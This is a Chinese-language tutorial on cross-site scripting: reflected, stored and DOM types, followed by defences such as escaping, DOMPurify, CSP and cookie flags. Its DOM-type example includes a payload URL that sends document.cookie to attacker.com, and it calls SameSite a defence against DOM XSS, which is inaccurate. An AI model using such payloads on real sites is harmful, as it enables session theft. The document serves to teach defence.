 ```yaml
---
title: 前端XSS
order: 1
#article: false
category:
  - web安全
tag:
  - XSS
---
```


## XSS

XSS（Cross-Site Scripting）即跨站脚本攻击，是一种常见的前端安全漏洞。

## 定义与原理

XSS 攻击是指攻击者在目标网站上注入恶意脚本，当用户访问该网站时，浏览器会执行这些恶意脚本，从而导致用户信息泄露、操作被劫持等安全问题。其本质是由于网站对用户输入或输出的数据没有进行充分的过滤和验证，使得攻击者能够将恶意脚本插入到正常的页面内容中。

## 类型

### 反射型 XSS

也称为非持久型 XSS，攻击者将恶意脚本作为 URL 的一部分发送给用户，用户访问该 URL 时，服务器将恶意脚本反射给用户的浏览器并执行。

例如，攻击者构造一个包含恶意脚本的链接 `https://example.com/search?q=<script>alert('XSS')</script>`，用户点击该链接后，浏览器会弹出一个警告框。


当然实际攻击不可能是一个弹框，有可能是读取用户 `cookie` 发送到攻击者的服务器，或者劫持用户操作等。并且会把链接转码，或者去生成一个短链接，增加攻击的隐蔽性。

### 存储型 XSS

又称持久型 XSS，攻击者将恶意脚本存储在目标服务器上，当用户访问包含该恶意脚本的页面时，浏览器会自动执行脚本。

常见于评论区、留言板等用户可输入内容并存储的地方，攻击者在评论中插入恶意脚本，其他用户查看该评论时就会受到攻击。

例如，评论区输入 `<script>alert('XSS')</script>`, 当渲染到页面时，浏览器会执行该脚本。如果保存成功的，那么这条评论出现的地方，这个脚本都会被执行。

如果是一篇火热的微博或者新闻头条，那么每个进入这个页面的人都会受到攻击。

### DOM 型 XSS

通过修改页面的 DOM 结构来注入恶意脚本。攻击者利用网站前端代码中的漏洞，通过修改 DOM 节点的属性或内容，将恶意脚本插入到页面中。

这个其实和 `反射型 XSS` 有一点关系， 例如：

攻击者构造一个特殊的URL，例如：`http://example.com/page?param=&lt;script&gt;document.body.innerHTML += '<img src="http://attacker.com?cookie=&#39;+document.cookie+&#39;&quot;/&gt;&#39;&lt;/script&gt`;。

当用户访问该URL时，恶意脚本会将一个隐藏的图片标签插入到页面中，并将用户的cookie作为参数发送到攻击者的服务器上。


## 防御措施

### 输入输出过滤

**输入进行严格过滤**: 在前端和后端都对用户输入的数据进行过滤，去除或转义其中的特殊字符和 HTML 标签。例如，使用正则表达式对输入的文本进行匹配，替换或删除可能存在风险的字符和标签。

**对输出到页面的数据进行转义**: 在将数据输出到 HTML 页面时，使用相应的转义函数对数据进行处理，将特殊字符转换为 HTML 实体。

### 使用安全的 HTML 渲染库

一些 HTML 渲染库提供了安全的渲染机制，能够自动对输入进行过滤和转义，防止 XSS 攻击。如`DOMPurify` 库，它可以对 HTML 字符串进行净化处理，去除其中的恶意脚本，确保渲染的内容是安全的。

例如一些富文本编辑器的内容，最后需要渲染成 html，那么在富文本提交时，应该对内容过滤一遍，对脚本文件标签、内容进行转译，并且在渲染时，对内容进行净化。


### CSP

Content-Security-Policy（CSP）: CSP是一种安全机制，可以限制网页加载的资源，防止恶意脚本的执行。通过设置 CSP 头部，告诉浏览器哪些来源的脚本可以执行，哪些是被禁止的。

例如，设置 `Content-Security-Policy: script-src'self'; object-src 'none';` 表示只允许执行来自本站点的脚本，禁止加载任何外部的脚本和对象。


### Cookie 

设置 cookie 的 `HttpOnly` 属性，防止 JavaScript 通过 `document.cookie` 访问 cookie，从而防止攻击者通过 XSS 攻击获取用户的 cookie。

设置 cookie 的 `SameSite`，防止 DOM 型 XSS 攻击，例如 `SameSite=Strict`，表示在跨站请求时，不会发送 cookie。